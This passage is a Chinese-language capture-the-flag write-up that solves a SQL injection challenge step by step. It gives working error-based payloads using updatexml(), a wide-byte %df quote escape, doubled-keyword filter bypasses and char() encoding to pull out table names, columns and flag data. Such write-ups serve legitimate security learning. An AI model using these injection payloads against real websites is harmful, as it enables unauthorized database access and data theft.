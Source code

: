 `updatexml()`函数的第二个参数为`XPath_string`，但是我们将`concat()`作为第二个参数传给`updatexml()`函数时，`concat()`返回类型为字符串所以不满足`XPath_string`格式，返回`XPath syntax error`，进而爆出数据库信息。

<1> 数据库名
>name=admin%df' and updatexml(1,concat(1,database()),1) --+&pw=123

得到数据库名为`web_sqli`

![avatar](https://k1ng0fic3.github.io/images/sql12.png)

注意：一般的exp都是`concat()`拼接上一个字符'`~`'，编码为`0x7e`，本题fuzz发现hex被过滤了，所以`concat()`里直接拼个1算了，本题中没有影响。
加'`~`'是因为`updatexml()`会报错字母和特殊字符之后的内容，所以手工补上一个特殊字符'`~`'

![avatar](https://k1ng0fic3.github.io/images/sql13.png)

<2> 表名
>name=admin%df' and updatexml(1,concat(1, (sselectelect group_concat(table_name) from information_schema.tables whwhereere table_schema=database() limit 0,1)),1) --+&pw=123

得到f14g,user两个表。

![avatar](https://k1ng0fic3.github.io/images/sql14.png)

<3> 列名
>name=admin%df' and updatexml(1,concat(1, (seselectlect group_concat(column_name) from information_schema.columns  wherwheree TABLE_SCHEMA=database() and TABLE_NAME=f14g)),1) --+&pw=123

注意：表名`f14g`需要编码后请求，否则会返回`Error: Unknown column 'f14g' in 'where clause'`错误。本题目ban掉了hex，但是可以用`char()`编码实现。
更正为：
>name=admin%df' and updatexml(1,concat(1, (seselectlect group_concat(column_name) from information_schema.columns  wherwheree TABLE_SCHEMA=database() and TABLE_NAME=char(102,49,52,103))),1) --+&pw=123

得到：

![avatar](https://k1ng0fic3.github.io/images/sql15.png)

附：其实如果没有想起来`char()`编码，不指定`f14g`直接`where table_schema=database()`查所有字段，得到的也是上图结果。

图中的`b80bb7740288fda1f201890375a60c8f`是`id`的MD5值，试着查了一下，也都是数字。
那么盲猜表里有一个`flag`的列，`flag`的MD5值为`327a6c4304ad5938eaf0efb6cc3e53dc`

<4> 字段
>name=admin%df' and updatexml(1,concat(1, (seleselectct concat(327a6c4304ad5938eaf0efb6cc3e53dc) from f14g limit 0,1),1),1) --+ &pw=123

![avatar](https://k1ng0fic3.github.io/images/sql16.png)

对`VGhlIGZpcnN0IG1hbiBuYW1lIHdhcyBr`解base64得：

![avatar](https://k1ng0fic3.github.io/images/sql17.png)

这xxd一看就是co某dance歌词，隐写的思维，直接往最后看。

>name=admin%df' and updatexml(1,concat(1, (seleSELECTct concat(327a6c4304ad5938eaf0efb6cc3e53dc) from f14g limit 22,1),1),1) --+ &pw=123
